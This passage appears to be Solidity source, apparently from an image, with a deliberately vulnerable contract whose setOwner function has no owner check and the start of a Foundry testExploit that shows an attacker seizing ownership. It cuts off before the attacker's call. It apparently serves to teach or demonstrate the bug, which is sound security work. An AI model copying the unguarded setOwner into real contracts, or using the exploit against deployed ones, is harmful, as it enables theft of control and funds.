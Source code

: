 ```solidity
    constructor(address _owner) {
        require(_owner != address(0), "Invalid owner");
        owner = _owner;
    }

    /*
        Vulnerable Function: setOwner
        This function allows setting a new owner without checking that the caller is the current owner.
        As a result, an attacker can seize control by calling this function.
    */
    function setOwner(address newOwner) external returns (bool) {
        require(newOwner != address(0), "Invalid new owner");
        owner = newOwner;
        return true;
    }
}

/*
    YourTest extends BaseTestWithBalanceLog (imported via basetest.sol) to demonstrate the vulnerability.
    It sets up a test environment with two accounts: one legitimate owner and one attacker.
    The testExploit function demonstrates how the vulnerable setOwner function can be exploited.
*/
contract YourTest is BaseTestWithBalanceLog {
    VulnerableContract public vulnerable;
    address public owner;
    address public attacker;

    function setUp() public {
        // Ensure the test contract has enough ETH.
        vm.deal(address(this), 100 ether);
        
        // Setup two accounts: one for the legitimate owner and one for the attacker.
        owner = vm.addr(1);
        attacker = vm.addr(2);
        
        // Deploy the vulnerable contract with the legitimate owner.
        vm.prank(owner);
        vulnerable = new VulnerableContract(owner);
    }

    // The balanceLog modifier is used to log ETH balances at the start and end of the test.
    function testExploit() public balanceLog {
        // Ensure the test address has enough ETH.
        vm.deal(address(this), 10 ether);

        // ------------------------------------------------------------------
        // Step 1: Demonstrate normal behavior by having the legitimate owner call setOwner.
        // Even though setOwner is supposed to be owner-only, the vulnerability is not exploited yet.
        // ------------------------------------------------------------------
        vm.prank(owner);
        (bool successOwner, bytes memory dataOwner) = address(vulnerable).call(
            abi.encodeWithSelector(vulnerable.setOwner.selector, owner)
        );
        require(successOwner, "Owner call to setOwner failed");
        require(vulnerable.owner() == owner, "Owner is not set correctly after owner's call");
        emit log_named_address("Owner after legitimate call:", vulnerable.owner());

        // ------------------------------------------------------------------
        // Step 2: Attacker exploits the vulnerability by calling setOwner.
        // Without an access control modifier, the attacker can successfully change the owner.
```